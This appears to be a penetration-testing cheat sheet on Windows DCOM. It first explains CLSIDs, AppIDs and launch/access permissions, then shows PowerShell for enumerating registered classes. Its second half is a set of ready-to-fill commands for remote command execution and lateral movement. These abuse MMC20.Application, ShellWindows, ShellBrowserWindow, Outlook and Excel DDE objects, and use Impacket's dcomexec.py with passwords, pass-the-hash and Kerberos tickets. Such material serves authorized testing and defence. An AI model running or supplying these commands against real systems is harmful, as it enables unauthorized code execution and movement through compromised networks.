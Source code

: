 ### DCOM overview

`Component Object Model (COM)` is a Microsoft standard for inter-process
communication. `COM` specifies an object model and programming requirements
that enable `COM objects` (also called `COM components`) to interact with one
another. A `COM object` defines one, or more, sets of functions (`methods`),
called `interfaces`, that are the only way to manipulate the data associated
with the object. A `COM server` object provides services to `COM clients`
through its implemented `methods`, called by the clients after retrieving a
pointer to the `COM server` object interface.

The proprietary Microsoft `Distributed Component Object Model (DCOM)`
technology allows for networked communication of `COM objects` over the
`Microsoft Remote Procedure Call (MSRPC)` protocol, with a first connection
initiated on the remote system port TCP 135.

The `COM` / `DCOM` object register a few notable identifiers:
  - The `Class Identifier (CLSID)`, a `GUID` acting as a unique identifier for
  every `COM class` registered in Windows. The `CLSID key` in the registry
  points to the implementation of the class.
  - The optional `Programmatic Identifier (ProgID)`, that can supplement a
  `COM class` `CLSID` with a more human-readable name. Not every `COM class`
  is associated with a `ProgID`.
  - The `Application Identifier (AppID)`, which groups the configuration for
  one, or more, `DCOM objects` hosted by the same executable into one
  centralized location in the registry (`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\
  AppID\{<APPID>}`).

The configuration defined in `AppID` notably specify, the form of `Access
Control List (ACL)`, the following permissions:
   - `Launch Permissions`, that restrict the security principals that can
   locally or remotely start the `DCOM object` server
   - `Access Permissions`, that restrict the security principals that can
   locally or remotely access the `DCOM object` methods
   - `Configuration Permissions`, that restrict the security principals that
   can modify the configuration of the `DCOM` objects.

System-wide limits are defined and control the minimal level of restrictions
`DCOM applications` can set. By default, `Everyone` and non authenticated
users (`ANONYMOUS LOGON`) may be granted local or remote access to `DCOM
object` methods while only members of the local `Administrators`, `Distributed
COM Users`, and `Performance Log Users` may be granted remote `launch` and
`activation` rights.

If the `Access Permissions` is left unspecified in the `AppID` configuration,
the system-wide `Access Permissions` and `Launch Permissions` are applied. By
default, the `Remote Access` right is only granted to the Windows local
built-in `Administrators` group. The `AppID` registered on a system can be
browsed and edited using the `dcomcnfg.exe` Windows built-in utility or, the
dedicated `OleViewDotNet` .NET utility.

A client request the instantiation of a remote `DCOM` object class by
specifying its `CLSID` or `ProgID`, the later being resolved to the associated
`CLSID`. The `DCOMLaunch` service (`C:\Windows\system32\svchost.exe -k
DcomLaunch`, for `DCOM objects` from an `exe` binary) or `DLLHOST.exe` (for
`DCOM objects` from a `DLL`) then instantiate the requested `DCOM` object
class, on condition that the client has the necessary access permissions (as
defined in the `APPID` configuration). The error code `80070005` (for
`E_ACCESSDENIED`) will be returned otherwise.

###### CLSID enumeration

PowerShell can be used to list the `CLSID` and `ProdID` properties of the
`DCOM objects` registered on the local computer `HKEY_CLASSES_ROOT` registry
hive. The `HKEY_CLASSES_ROOT` registry hive cannot be directly accessed on a
remote computer using `Get-ChildItem`. In order to remotely access the
`HKEY_CLASSES_ROOT` registry hive, the following PowerShell commands can be
run over `WinRM` using the `Invoke-Command` PowerShell cmdlet.

```
# Lists
Get-ChildItem REGISTRY::HKEY_CLASSES_ROOT\CLSID | ForEach-Object {

  $DCOMClass = New-Object PSObject -Property @{
    CLSID = $_.Name.Split("{")[1].Split("}")[0]
  }

  If ($_.GetSubKeyNames() -match "ProgID") {
    $DCOMClass | Add-Member -Type NoteProperty -Name "ProgID" -Value $_.OpenSubKey("ProgID").GetValue("")
  }

  Else {
    $DCOMClass | Add-Member -Type NoteProperty -Name "ProgID" -Value $null
  }

  return $DCOMClass
}

# Filters by ProgID
Get-ChildItem REGISTRY::HKEY_CLASSES_ROOT\CLSID -Recurse -Include 'ProgID' | ForEach-Object { If ($_.GetValue("") -match "<PROGID>") { return $_.Name,$_.GetValue("") }}

# Filter by CLSID
Get-ChildItem REGISTRY::HKEY_CLASSES_ROOT\CLSID -Recurse | ForEach-Object { If ($_.Name -match "<CLSID>") { return $_.Name,$_.GetValue("") }}
```

###### Code execution over DCOM

Multiple `DCOM objects` classes can be leveraged to execute commands on the
remote system. The idea of using `DCOM objects` for lateral movements having
come to light recently, in January 2017 after a publication by `enigma0x3`, the
below list, mostly gathered from
`https://www.cybereason.com/blog/dcom-lateral-movement-techniques`, is possibly
far from being exhaustive.

PowerShell and `Impacket`'s `dcomexec.py` Python script can be used to execute
commands through `DCOM` objects:

```
# PowerShell
# MMC20.Application
# Blocked by the default Windows firewall rules
# Starts a child process under Microsoft Management Console (mmc.exe)
$dcom = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","<IP>"))
$dcom.Document.ActiveView.ExecuteShellCommand("<C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe | BINARY>", $null, <$null | "COMMAND_ARGS">, "7")

# ShellWindows
# Blocked by the default Windows firewall rules
# Requires a File Explorer or Internet Explorer process on the remote system
$dcom = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", "<IP¨>"))
$dcom[0].Document.Application.ShellExecute("<BINARY>")
$dcom[0].Document.Application.ShellExecute("<BINARY>", "<COMMAND_ARGS>", "<EXEC_DIRECTORY>", $null, 0)

# ShellBrowserWindow
# Blocked by the default Windows firewall rules
# DOES NOT require a File Explorer or Internet Explorer process on the remote system
# Only available on
$dcom = [activator]::CreateInstance([type]::GetTypeFromCLSID("c08afd90-f2a1-11d1-8455-00a0c91f3880", "<IP¨>"))
$dcom.Document.Application.ShellExecute("<BINARY>")
$dcom.Document.Application.ShellExecute("<BINARY>", "<COMMAND_ARGS>", "<EXEC_DIRECTORY>", $null, 0)

# Outlook through Shell.Application
# Blocked by the default Windows firewall rules?
# Requires Outlook to be installed on the remote system
$dcom = [activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application", "<IP¨>"))
$dcom_shell = $dcom.CreateObject("Shell.Application")
$dcom_shell.ShellExecute("<BINARY>")
$dcom_shell.ShellExecute("<BINARY>", "<COMMAND_ARGS>", "<EXEC_DIRECTORY>", $null, 0)

# Excel.Application DDE
# Blocked by the default Windows firewall rules?
# Requires Excel to be installed on the remote system
# The name of the specified binary is limited to 8 characters maximum, so a binary present in the %PATH%, such as powershell.exe or cmd.exe, must be used
$dcom = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application","<IP>"))
$dcom.DisplayAlert = $False
$dcom.DDEInitiate("<BINARY>","<COMMAND_ARGS>")

# Python
# dcomexec.py executes by default a semi-interactive shell using the ShellBrowserWindow DCOM oject.
# NTLM authentication
dcomexec.py -debug [-object <MMC20 | ShellWindows | ShellBrowserWindow>] [-target-ip <TARGET_IP>] [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<HOSTNAME | IP> <TASK_COMMAND>
dcomexec.py -debug [-object <MMC20 | ShellWindows | ShellBrowserWindow>] -hashes <LM_HASH:NT_HASH> [-target-ip <TARGET_IP>] [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP> <TASK_COMMAND>

# Kerberos authentication
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>
dcomexec.py -debug [-object <MMC20 | ShellWindows | ShellBrowserWindow>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> "<COMMAND | TASK_COMMAND>"

# More Microsoft Office DCOM objects can be leveraged for lateral movements, as described in the provided source above
```

